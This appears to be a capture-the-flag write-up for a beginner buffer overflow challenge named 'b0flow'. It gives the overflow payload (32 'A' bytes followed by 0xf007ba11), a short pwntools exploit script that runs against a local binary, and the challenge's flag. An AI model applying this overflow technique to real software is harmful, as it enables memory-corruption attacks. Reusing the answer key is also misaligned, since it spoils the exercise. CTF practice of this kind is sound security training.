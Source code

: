 
#### Solution
To solve the challenge the participants need to write the code "Solution.py" or need to input bytes data of ( 32 * "A" + "\x11\xba\x07\xf0" ) 

```python
#!/usr/bin/python3
from pwn import *

io= process('./b0flow')
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode())
io.sendlineafter(b'>',b'A'*32 + p32(0xf007ba11))

print(io.recvall().decode())
```
#### Flag
SLAY{Buff3r_bu573r_g33k}
